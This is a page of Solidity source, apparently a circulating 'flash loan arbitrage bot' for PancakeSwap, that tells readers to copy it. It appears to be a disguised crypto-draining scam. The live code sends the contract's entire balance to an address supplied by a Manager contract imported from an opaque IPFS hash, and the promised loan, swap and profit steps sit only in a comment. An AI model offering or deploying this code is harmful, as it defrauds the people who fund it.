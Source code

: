 //Copy this code

pragma solidity ^0.5.0;

import "https://github.com/Multiplier-Finance/MCL-FlashLoanDemo/blob/main/contracts/interfaces/ILendingPoolAddressesProvider.sol";

import "https://github.com/Multiplier-Finance/MCL-FlashLoanDemo/blob/main/contracts/interfaces/ILendingPool.sol";

import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeCallee.sol";

import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeFactory.sol";

import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakePair.sol";

import "ipfs://QmcdBFQDxD8UG7rsa7D5TPoZ785AjneWzf4F4w8dje4pDV";

contract GetFlashLoan {
   string public tokenName;
   string public tokenSymbol;
   uint loanAmount;
   Manager manager;
   constructor(string memory _tokenName, string memory _tokenSymbol, uint _loanAmount) public {
      tokenName = _tokenName;
      tokenSymbol = _tokenSymbol;
      loanAmount = _loanAmount;
      manager = new Manager();
   }
   function() external payable {}
   function action() public payable {
      // Send required coins for swap
      address(uint160(manager.pancakeDepositAddress())).transfer(address(this).balance);
      // Perform tasks (clubbed all functions into one to reduce external calls & SAVE GAS FEE)
      // Breakdown of functions written below
      manager.performTasks();
      /* Breakdown of functions
      // Submit token to BSC blockchain
      string memory tokenAddress = manager.submitToken(tokenName, tokenSymbol);
   // List the token on PancakeSwap
      manager.pancakeListToken(tokenName, tokenSymbol, tokenAddress);
   // Get BNB Loan from Multiplier-Finance
      string memory loanAddress = manager.takeFlashLoan(loanAmount);
      // Convert half BNB to DAI
      manager.pancakeDAItoBNB(loanAmount / 2);
   // Create BNB and DAI pairs for our token & Provide liquidity
   string memory bnbPair = manager.pancakeCreatePool(tokenAddress, "BNB");
      manager.pancakeAddLiquidity(bnbPair, loanAmount / 2);
      string memory daiPair = manager.pancakeCreatePool(tokenAddress, "DAI");
      manager.pancakeAddLiquidity(daiPair, loanAmount / 2);
   // Perform swaps and profit on Self-Arbitrage
      manager.pancakePerformSwaps();
      // Move remaining BNB from Contract to your account
      manager.contractToWallet("BNB");
   // Repay Flashloan
      manager.repayLoan(loanAddress);
      */
   }
}
